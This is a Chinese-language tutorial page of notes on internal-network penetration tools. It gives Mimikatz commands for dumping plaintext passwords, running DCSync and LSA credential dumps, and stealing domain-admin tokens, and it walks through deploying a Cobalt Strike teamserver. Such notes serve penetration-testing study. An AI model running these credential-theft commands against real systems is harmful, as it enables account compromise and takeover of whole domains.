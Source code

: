 # 内网渗透工具使用

## Mimikatz密码抓取

> 项目地址：https://github.com/gentilkiwi/mimikatz
>
> 使用方法：工具上传到目标主机，通过system权限运行exe文件
>
> 语法：`Module::Function`，需要加参数的话为`/arg:value`
>
> 参考：https://blog.z3ratu1.cn/Mimikatz%E4%BD%BF%E7%94%A8%E7%AE%80%E7%95%A5.html

常见命令：

**提升权限**

```
privilege::debug		# 从administrator提升到system
```

**获取用户&密码**

这里需要管理员权限

```
sekurlsa::logonpasswords		# 获取当前在线用户的明文密码（需要高权限运行）
```

```
lsadump::DCSync			#在非域控机器上登录一个域管理员账户（非本地管理员）即可执行向DC要一个号的密码
lsadump::lsa /patch			#获取当前此计算机存在过用户
```

**杂项命令**

这三个命令在管理员禁止使用这三个东西的时候可以硬开出来

```
misc::cmd		# 开一个命令行
misc::taskmgr		# 开一个任务管理器
misc::regedit		# 开一个注册表编辑器
```

**信息收集**

```
net::user
net::wsession
net::group
```

**进程信息**

```
process::list		# 列出正在运行的进程

process::Resume			#恢复一个进程
process::Start		#启动一个进程
process::Stop		#结束一个进程
process::Suspend 		#挂起一个进程
均以/pid:为参数
```

**抓取，伪造假冒的已存在令牌**

需管理员权限，提升至system权限

```
token::elevate		# 可加参数/domainadmin，找到一个域管理员凭证并使用其令牌
token::whoami		# 显示当前身份
token::list		# 列出所有令牌
```



## Cobaltstrike渗透

> 项目地址：https://cobaltstrike.com/
>
> 使用方法：准备一个客户端，一个服务端（尽量是VPS），安装对应的服务
>
> 参考：https://zhuanlan.zhihu.com/p/93718885

被业界人称为CS其拥有多种协议主机上线方式，集成了提权，凭据导出，端口转发，socket代理，office攻击，文件捆绑，钓鱼等功能。同时，Cobalt Strike还可以调用Mimikatz等其他知名工具

早期版本CobaltSrtike依赖Metasploit框架，而现在Cobalt Strike已经不再使用MSF而是作为单独的平台使用，它分为客户端(Client)与服务端(Teamserver)，服务端是一个，客户端可以有多个，团队可进行分布式协团操作。

![image-20210719081443185](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210719081443185.png)

### 服务端部署

我们将安装包（这里包含服务端和客户端），放到VPS上，还需要准备一个java环境

![image-20210719083053277](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210719083053277.png)

> agscript拓展应用的脚本
>
> c2lint 用于检查profile的错误异常
>
> teamserver服务端程序
>
> cobaltstrike，cobaltstrike.jar客户端程序(java跨平台)
>
> logs目录记录与目标主机的相关信息
>
> update，update.jar用于更新CS
>
> third-party第三方工具

启动服务器

```
./teamserver x.x.x.x(IP) 连接密码
./teamserver 8.8.8.8 123456
```

启动后会告诉默认连接的端口号50050，本地客户端进行连接

![image-20210719085558033](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210719085558033.png)



### 常用命令

**枚举已连接上Teamserver的黑客用户**

```
/names
```

**用户通信**

```
/msg neo hello!
```



> https://www.google.com.hk/search?q=cobalt+strike%E4%BD%BF%E7%94%A8&newwindow=1&ei=NMH0YPeqCOXEgweN6oCQBQ&oq=Cobaltstrike&gs_lcp=Cgdnd3Mtd2l6EAEYBTIHCAAQsAMQCjIHCAAQsAMQCjIFCAAQsAMyBQgAELADMgcIABCwAxAKMgcIABCwAxAKMgUIABCwAzIFCAAQsAMyBwgAELADEAoyBwgAELADEApKBAhBGAFQAFgAYKLoPmgBcAB4AIAB5QGIAeUBkgEDMi0xmAEAqgEHZ3dzLXdpesgBCsABAQ&sclient=gws-wiz
>
> https://www.freebuf.com/company-information/167460.html
>
> https://zhuanlan.zhihu.com/p/93718885























